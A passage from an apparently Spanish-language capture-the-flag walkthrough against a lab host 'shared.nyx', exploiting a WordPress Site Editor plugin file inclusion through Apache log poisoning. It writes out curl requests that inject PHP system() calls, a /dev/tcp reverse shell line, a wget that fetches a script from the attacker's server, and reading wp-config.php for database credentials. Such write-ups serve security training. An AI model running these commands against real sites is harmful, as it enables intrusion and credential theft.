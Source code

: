 4. **Explotación - Log Poisoning:**
   - Identificamos una vulnerabilidad de log poisoning en WordPress:
     ```bash
     curl -i -v "http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log" -A "<?php system('whoami'); ?>"
     ```

     **Fuentes:** 
   - https://www.exploit-db.com/exploits/44340
   - https://wpscan.com/vulnerability/78575072-4e04-4a8a-baec-f313cfffe829/
   - https://dheerajdeshmukh.medium.com/get-reverse-shell-through-log-poisoning-with-the-vulnerability-of-lfi-local-file-inclusion-e504e2d41f69
   - https://systemweakness.com/log-poisoning-to-remote-code-execution-lfi-curl-7c49be11956

     Al revisar la respuesta, confirmamos la vulnerabilidad.

   - Utilizamos curl para ejecutar comandos al servidor:
     ```bash
     curl -i -v "http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log" -A "<?php system('ls /'); ?>"
     ```

   - Creamos y subimos un archivo para obtener una reverseshell:
     ```bash
     nano rev.php
     # bash -i >& /dev/tcp/(IP-Atacante)/443 0>&1

     python3 -m http.server 8000

     curl -i -v "http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log" -A "<?php system('wget http://(IP atacante):8000/rev.php'); ?>"
     ```

   - Ejecutamos la reverseshell:
     ```bash
     curl -i -v "http://shared.nyx/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/log/apache2/access.log" -A "<?php system('bash rev.php'); ?>"
     ```

   - Accedemos al servidor con Netcat y obtenemos una shell como www-data.

5. **Privilege Escalation - Rabbit hole - Monturas NFS:**
   - Realizamos tratamiento de la TTY para mayor comodidad:
     ```bash
     script /dev/null -c bash
     control+Z
     stty raw -echo; fg
     reset xterm
     export TERM=xterm
     export SHELL=bash
     ```
   - Comenzamos buscando en "wp-config.php" Una ruta de Wordpress donde suelen haber contraseñas y/o usuarios
     ```bash
     cat wp-config.php
     ```
   - Datos recolectados
     ```bash
     •define( 'DB_NAME', 'wordpress' );
     •define( 'DB_USER', 'wordpress' );
     •define( 'DB_PASSWORD', 'R*****************Y' );
     ```